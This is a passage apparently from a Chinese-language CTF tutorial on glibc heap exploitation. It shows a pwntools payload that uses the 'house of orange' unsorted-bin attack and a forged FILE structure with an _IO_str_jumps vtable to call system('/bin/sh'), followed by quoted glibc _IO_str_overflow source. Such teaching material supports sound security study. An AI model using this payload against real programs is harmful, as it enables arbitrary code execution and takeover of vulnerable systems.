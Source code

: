 利用`house of orange`（见下文）构造的`payload`：

```python
payload = p64(0) + p64(0x60) + p64(0) + p64(libc.sym['_IO_list_all'] - 0x10) #unsorted bin attack
payload += p64(0) + p64(1) + p64(0) + p64(next(libc.search(b'/bin/sh')))
payload = payload.ljust(0xd8, b'\x00') + p64(get_IO_str_jumps() - 8)
payload += p64(0) + p64(libc.sym['system'])
```

再来介绍一下：利用`_IO_str_jumps`中`_IO_str_overflow()`函数的手段。
`_IO_str_overflow()`函数的源码如下：

```c
int _IO_str_overflow (_IO_FILE *fp, int c)
{
  int flush_only = c == EOF;
  _IO_size_t pos;
  if (fp->_flags & _IO_NO_WRITES)
      return flush_only ? 0 : EOF;
  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
    {
      fp->_flags |= _IO_CURRENTLY_PUTTING;
      fp->_IO_write_ptr = fp->_IO_read_ptr;
      fp->_IO_read_ptr = fp->_IO_read_end;
    }
  pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
    return EOF;
      else
    {
      char *new_buf;
      char *old_buf = fp->_IO_buf_base;
      size_t old_blen = _IO_blen (fp);
      _IO_size_t new_size = 2 * old_blen + 100;
      if (new_size < old_blen)
        return EOF;
      new_buf
        = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size); // 调用了fp->_s._allocate_buffer函数指针
      if (new_buf == NULL)
        {
          /*      __ferror(fp) = 1; */
          return EOF;
        }
      if (old_buf)
        {
          memcpy (new_buf, old_buf, old_blen);
          (*((_IO_strfile *) fp)->_s._free_buffer) (old_buf);
          /* Make sure _IO_setb won't try to delete _IO_buf_base. */
          fp->_IO_buf_base = NULL;
        }
      memset (new_buf + old_blen, '\0', new_size - old_blen);
 
      _IO_setb (fp, new_buf, new_buf + new_size, 1);
      fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);
      fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);
      fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);
      fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);
 
      fp->_IO_write_base = new_buf;
      fp->_IO_write_end = fp->_IO_buf_end;
    }
    }
```
